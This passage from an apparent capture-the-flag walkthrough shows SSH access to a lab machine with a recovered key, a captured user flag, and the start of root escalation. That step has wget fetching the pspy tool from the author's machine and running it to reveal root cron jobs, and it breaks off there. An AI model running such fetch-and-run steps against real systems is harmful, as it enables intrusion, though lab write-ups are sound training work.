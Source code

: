 `ssh -i id_rsa imsau@10.10.145.240`

and am in:

```
ssh -i id_rsa imsau@10.10.145.240
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-201-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

1 package can be updated.
1 of these updates is a security update.
To see these additional updates run: apt list --upgradable


$ id 
uid=1002(imsau) gid=1002(imsau) groups=1002(imsau)
$ 
```

Afterwards, I read `user.txt`

```
ls -al
total 32
drwxr-xr-x 4 imsau imsau 4096 Jan 31 19:01 .
drwxr-xr-x 3 root  root  4096 Jan 31 19:53 ..
lrwxrwxrwx 1 root  root     9 Jan 31 19:01 .bash_history -> /dev/null
-r-------- 1 imsau imsau  220 Aug 31  2015 .bash_logout
-r-------- 1 imsau imsau 3771 Aug 31  2015 .bashrc
drwx------ 2 imsau imsau 4096 Jan 31 17:46 .cache
-rw-r--r-- 1 imsau imsau  655 Jul 12  2019 .profile
drwx------ 2 imsau imsau 4096 Jan 31 16:34 .ssh
-r-------- 1 imsau imsau   33 Jan 31 16:34 user.txt
lrwxrwxrwx 1 root  root     9 Jan 31 19:01 .viminfo -> /dev/null
$ cat user.txt
1c5ccb6ce6f3561e302e0e516c633da9
```


#### 7. Escalation to root

I found nothing with linepeas and `imsau` ahs no sudo permissions either.

After little googling, I found a tool `pspy64s` which shows crons and scripts running by all users.

So I run a python server on my machine `python3 -m http.server` then download the script on target machine `wget http://10.6.46.150:8000/pspy64s` give permissions with `chmod +x pspy64s` and run.

It shows me a script, which runs every minute as root:

```
2021/02/16 14:05:01 CMD: UID=0    PID=1822   | /bin/sh -c cd /tmp && sudo chown root:root /tmp/file.yml 
2021/02/16 14:05:01 CMD: UID=0    PID=1821   | /bin/sh -c cd /opt/scripts && sudo /usr/bin/python /opt/scripts/file.py && sudo rm -f /tmp/file.yml 
2021/02/16 14:05:01 CMD: UID=0    PID=1820   | /bin/sh -c cd /tmp && sudo chown root:root /tmp/file.yml 
2021/02/16 14:05:01 CMD: UID=0    PID=1819   | /usr/sbin/CRON -f 
2021/02/16 14:05:01 CMD: UID=0    PID=1818   | /usr/sbin/CRON -f 
```
Here is how it looks like:
